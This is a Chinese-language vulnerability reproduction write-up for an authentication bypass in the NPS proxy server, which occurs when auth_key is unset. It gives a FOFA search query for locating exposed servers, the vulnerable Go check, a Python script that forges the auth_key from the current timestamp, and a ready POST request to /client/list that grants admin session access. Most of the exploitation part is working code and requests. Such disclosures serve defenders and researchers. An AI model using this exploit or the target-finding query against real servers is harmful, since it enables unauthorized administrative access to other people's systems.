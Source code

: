 # NPS auth_key 未授权访问漏洞

## 漏洞描述

NPS auth_key 存在未授权访问漏洞，当 nps.conf 中的 auth_key 未配置时攻击者通过生成特定的请求包可以获取服务器后台权限

## 漏洞影响

```
NPS
```

## FOFA

```
body="serializeArray()" && body="/login/verify"
```

## 漏洞复现

登录页面

![image-20220824141041017](./images/202208241410172.png)

在 web/controllers/base.go 文件中

![image-20220824141203374](./images/202208241412535.png)

```
md5Key := s.getEscapeString("auth_key")
timestamp := s.GetIntNoErr("timestamp")
configKey := beego.AppConfig.String("auth_key")
timeNowUnix := time.Now().Unix()
if !(md5Key != "" && (math.Abs(float64(timeNowUnix-int64(timestamp))) <= 20) && (crypt.Md5(configKey+strconv.Itoa(timestamp)) == md5Key)) {
	if s.GetSession("auth") != true {
		s.Redirect(beego.AppConfig.String("web_base_url")+"/login/index", 302)
	}
} else {
	s.SetSession("isAdmin", true)
	s.Data["isAdmin"] = true
}
```

这里需要的参数为 配置文件 nps.conf 中的 auth_key 与 timestamp 的md5 形式进行认证，但在默认的配置文件中，auth_key 默认被注释，所以只需要可以获取到的参数 timestamp 就可以登录目标

![image-20220824141300327](./images/202208241413464.png)

```
import time
import hashlib
now = time.time()
m = hashlib.md5()
m.update(str(int(now)).encode("utf8"))
auth_key = m.hexdigest()

print("auth_key=%s&timestamp=%s" % (auth_key,int(now)))
```

验证POC

```
POST /client/list
  
search=&order=asc&offset=0&limit=10&auth_key=8c98b1bdedbc569c4e61eeaeb11ce772&timestamp=1659838908
```

![image-20220824141850731](./images/202208241418775.png)